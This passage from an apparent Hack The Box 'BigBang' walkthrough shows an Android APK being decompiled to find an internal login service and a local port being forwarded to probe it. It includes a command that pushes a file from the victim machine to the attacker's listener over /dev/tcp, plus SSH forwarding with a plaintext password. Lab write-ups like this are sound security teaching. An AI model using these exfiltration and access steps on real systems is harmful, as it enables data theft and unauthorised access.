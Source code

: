 There is a specific folder on the home directory `android`.

You can find an apk inside `satellite-app.apk`. 

Download the file into your box and open it using [jadx](https://github.com/skylot/jadx)

```bash
# Victim machine
cat satellite-app.apk > /dev/tcp/10.10.14.6/7001

# Attacker machine
nc -lvnp 7001 > satellite-app.apk

# Open the apk
jadx-gui [Enter]
satellite-app.apk 
```
Searching with term `bigbang.htb`, you find a new domain in the `u.AsyncTaskC0228f` class.

`app.bigbang.htb:9090`

You can validate it's actually running by looking at the port on the box. You can also forward it and test it using `curl`

```bash
developer@bigbang:~/android$ ss -laputen | grep 9090

tcp   LISTEN 0      128        127.0.0.1:9090       0.0.0.0:*     ino:37248 sk:8 cgroup:/system.slice/satellite.service <-> 
```

```bash
# SSH Local forward
sshpass -p bigbang ssh -L :9090:127.0.0.1:9090 developer@blog.bigbang.htb

# Testing the endpoint
curl -XPOST http://127.0.0.1:9090/login --json "{}"

{"error":"Missing username or password"}
```

We could find more information about the `/login` endpoint. We see it wants a `username` and `password`.
```java
try {
        HttpURLConnection httpURLConnection = (HttpURLConnection) new URL("http://app.bigbang.htb:9090/login").openConnection();
        httpURLConnection.setRequestMethod("POST");
        httpURLConnection.setRequestProperty("Content-Type", "application/json");
        httpURLConnection.setRequestProperty("Accept", "application/json");
        httpURLConnection.setDoOutput(true);
        outputStream = httpURLConnection.getOutputStream();
[...]
```
Looking more into the code, we can see that the application is indeed waiting for a username and password
```java
if (obj2.isEmpty() || obj3.isEmpty()) {
        Toast.makeText(loginActivity, "Please enter username and password", 0).show();
        break;
} else {
        try {
        JSONObject jSONObject = new JSONObject();
        jSONObject.put("username", obj2);
        jSONObject.put("password", obj3);
        new AsyncTaskC0228f((LoginActivity) obj, 1).execute(jSONObject.toString());
        break;
        } catch (Exception e2) {
        e2.printStackTrace();
```